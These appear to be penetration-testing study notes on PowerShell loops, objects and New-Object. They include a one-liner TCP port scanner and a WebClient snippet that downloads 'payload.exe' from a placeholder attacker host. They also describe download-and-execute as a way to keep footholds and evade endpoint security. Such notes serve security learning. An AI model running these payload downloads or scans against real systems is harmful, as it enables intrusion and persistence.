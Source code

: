 The `Where-Object` cmdlet allows us to select objects within a collection based on their property values in regard to when used for a loop.
Example: `Get-ChildItem c:\Powershell\ | Where-Object {$_.Name -match "xls"}`.

**PowerShell TCP Port Scanner**

A great example of a useful loop is a TCP port scanner we can create entirely via the shell as a one-liner:
`$ports = (22, 23, 80, 139, 4444); $ip = "192.168.13.250"; foreach ($port in $ports) { try { $socket = New-Object System.Net.Sockets.TcpClient($ip, $port); } catch{}; if ($socket -eq $null) { echo $ip":"$port" - Closed"; } else { echo $ip":"$port" - Open"; $socket = $null; } }`.

### PowerShell Objects - Theory

#### Objects

Objects are essentially a representation of data that is provided as a result of running a cmdlet.
Rather than with other scripting languages where data is output as text most of the time, PowerShell is different in that the data being output originates from classes within the .NET Framework in the form of *objects*.
Objects are partly comprised of collections of properties, along with *methods* that we can use to manipulate the objects.

Each of the objects also has multiple methods that we can use to manipulate a particular object.
`Get-Member` is used to get a list of methods for objects associated with a cmdlet.
Example: `Get-Process | Get-Member -MemberType Method` (e.g. the Kill and Start methods).

We can use pipelining to manipulate objects using their associated methods.
Example: `Get-Process -Name "firefox" | Kill`.

##### Creating .NET Objects

We can use the `New-Object` cmdlet to create an instance of a *.NET Framework object* or *COM object*.
These can be either created as a "Type" of the .NET Framework class using fully qualified names of .NET classes, or we can use the "ProgID" of a COM object.

Example:
```powershell
$webclient = New-Object System.Net.WebClient
$payload_url = "https://attacker_host/payload.exe"
$file = "C:\ProgramData\payload.exe"
$webclient.DownloadFile($payload_url, $file)
```

---

## PowerShell for Pentesting

### Download and Execution (with Net.WebClient) - Theory

The ability to download and execute files on our target systems is a necessary process in our quest to maintain footholds and persistence within a target network.
Being able to do so with tools that are already built-in to the operating system ("living-off-the-land" principle) is even more important as it helps evade endpoint security measures and application whitelisting solutions by using tools that are likely already "trusted".
Additionally, being able to download and execute files with PowerShell is even more advantageous in many cases, since we're able to operate entirely within the memory process of PowerShell and can avoid dropping artifacts to disk in many cases.
